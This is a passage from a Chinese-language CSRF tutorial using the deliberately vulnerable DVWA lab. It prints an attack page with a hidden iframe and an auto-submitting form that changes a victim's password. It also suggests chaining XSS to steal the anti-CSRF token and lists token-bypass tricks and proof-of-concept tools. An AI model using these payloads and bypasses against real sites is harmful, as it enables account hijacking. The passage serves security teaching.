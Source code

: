    // Generate Anti-CSRF token 
    generateSessionToken(); 
    
    ?>
如果我们的攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。假设我们这样构造页面：

    <script type="text/javascript">
    function attack()
    {
    document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
    document.getElementById("transfer").submit();
    }
    </script>
    <iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
    </iframe>
    <body onload="attack()">
    <form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">
    <input type="hidden" name="password_new" value="password">
    <input type="hidden" name="password_conf" value="password">
    <input type="hidden" name="user_token" value="">
    <input type="hidden" name="Change" value="Change">
    </form>
    </body>
理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架iframe访问的地址是

    http://192.168.153.130/dvwa/vulnerabilities/csrf
位于服务器192.168.153.130上，而我们的攻击页面位于黑客服务器10.4.253.2上，两者的域名不同，域名B下的所有页面都不允许主动获取域名A下的页面内容，除非域名A下的页面主动发送信息给域名B的页面，所以我们的攻击脚本是不可能取到改密界面中的user_token。
由于跨域是不能实现的，所以我们要将攻击代码注入到目标服务器192.168.153.130中，才有可能完成攻击。所以我们可以利用Dvwa中的XSS-high级别板块偷取token后，再进行CSRF（两者位于同一域）。

**3.特殊情况**

- token写到Url中，通过referer偷取token:wooyun-2015-090935
- token没绑定请求，造成复用
- token可预测，即不完全随机，比如时间戳+md5等。
- 这里还有一篇文章，关于Window.Opener绕过CSRF保护：
当一个窗口由另一个窗口打开时，这个窗口会维护一个指向前一个窗口的参考值，这个值就是window.opener。如果当前窗口没有由其他窗口来打开，那么window.opener值为空。为空即会拦截CSRF请求。

[http://www.freebuf.com/vuls/83398.html](http://www.freebuf.com/vuls/83398.html)
## 三.关于构造CSRF Poc ##
**1.使用burp（pro版）构造**

填写表单时使用burp截断，然后生成Poc:
![](http://i.imgur.com/rtWZ7t4.png)
                                             burp构造CSRF Poc

**2.使用CSRFTester**

设置代理127.0.0.1：8008

双击run.bat(需自己配好Java环境)

然后填写表单时，软件会自动抓取到信息：
![](http://i.imgur.com/7SZ7rip.png)

3.在线构造

[    http://evilcos.me/lab/xssor/](http://evilcos.me/lab/xssor/)

